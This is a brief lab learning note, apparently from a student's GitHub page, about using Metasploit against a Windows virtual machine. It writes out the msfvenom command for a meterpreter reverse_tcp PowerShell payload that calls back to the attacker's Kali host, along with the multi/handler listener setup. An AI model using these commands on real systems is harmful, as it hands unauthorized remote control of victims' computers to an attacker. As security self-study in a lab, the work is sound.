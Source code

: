 ## Metasploit

-   I wanted to learn more about metasploit so I looked through youtube and found [this](https://www.youtube.com/watch?v=xuYZNJCvHgQ&t=1166s) video.

-   In this video I was able to learn how to use reverse tcp to gain access to a target's computer

-   First I had to create a windows vm to imitate a windows user, after multiple failures of the virtual machines not syncing, I found a solution, which was to switch the network from NAT to bridged and allow VMs to communicate in Orcale VirutalBox.

-   After this, I followed the video's command which was `msfvenom -p  windows/x64/meterpreter/reverse_tcp LHOST=[kali-ip-address] LPORT=4444 -f psh-cmd`. Here we create a payload using "`msfvenom -p`" then we specify that its a `windows x64` device, and spawns a `meterpreter` shell when `reverse_tcp` is successful and brings it back to us at LHOST and LPORT, the "`-f`" specifies the output format, and in this case its a powershell command.

-   After this I opened a new tab where I used `msfconsole` and under `use exploit/multi/handler` I specified the payload `set payload windows/x64/meterpreter/reverse_tcp` then the `set LHOST [ip-address]`, then used `exploit` to start and wait for the reverse tcp connection

-   After this I copy and pasted the long powershell command generated by the msfvenom command and pasted it inside the windows terminal \*after disabling` the windows firewall and anti-virus for testing purposes.

-   This successfully enabled me to take control of the target's machine and search and directory I wanted on the targets machine.

-   I hope to learn more about metasploit and other techniques
